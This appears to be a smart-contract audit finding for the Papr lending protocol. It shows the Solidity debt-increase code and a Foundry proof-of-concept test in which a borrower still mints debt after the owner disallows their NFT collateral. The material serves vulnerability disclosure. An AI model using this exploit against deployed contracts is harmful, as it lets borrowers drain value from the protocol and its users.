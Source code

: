```
		underwritePriceForCollateral(asset, ReservoirOracleUnderwriter.PriceKind.LOWER, oracleInfo);

	uint256 max = _maxDebt(_vaultInfo[account][asset].count * oraclePrice, cachedTarget);

	if (newDebt > max) revert IPaprController.ExceedsMaxDebt(newDebt, max);

	if (newDebt >= 1 << 200) revert IPaprController.DebtAmountExceedsUint200();

	_vaultInfo[account][asset].debt = uint200(newDebt);
	PaprToken(address(papr)).mint(mintTo, amount);

	emit IncreaseDebt(account, asset, amount);
}
```

As shown in the coded POC, we can add the following test to `increaseDebt.t.sol`:
```
function testIncreaseDebt_POC() public {

	uint256 debt = 10 ether;
	// console.log(debt);

	vm.assume(debt < type(uint200).max);
	vm.assume(debt < type(uint256).max / controller.maxLTV() / 2);

	oraclePrice = debt * 2;
	oracleInfo = _getOracleInfoForCollateral(nft, underlying);


	vm.startPrank(borrower);
	nft.approve(address(controller), collateralId);
	IPaprController.Collateral[] memory c = new IPaprController.Collateral[](1);
	c[0] = collateral;

	controller.addCollateral(c);

	// disable the collateral but still able to mint debt
	IPaprController.CollateralAllowedConfig[] memory args = new IPaprController.CollateralAllowedConfig[](1);
	args[0] = IPaprController.CollateralAllowedConfig({
		collateral: address(collateral.addr),
		allowed: false
	});

	vm.stopPrank();

	vm.prank(controller.owner());
	controller.setAllowedCollateral(args);

	vm.startPrank(borrower);

	controller.increaseDebt(borrower, collateral.addr, debt, oracleInfo);
	assertEq(debtToken.balanceOf(borrower), debt);
	assertEq(debt, controller.vaultInfo(borrower, collateral.addr).debt);
}
```
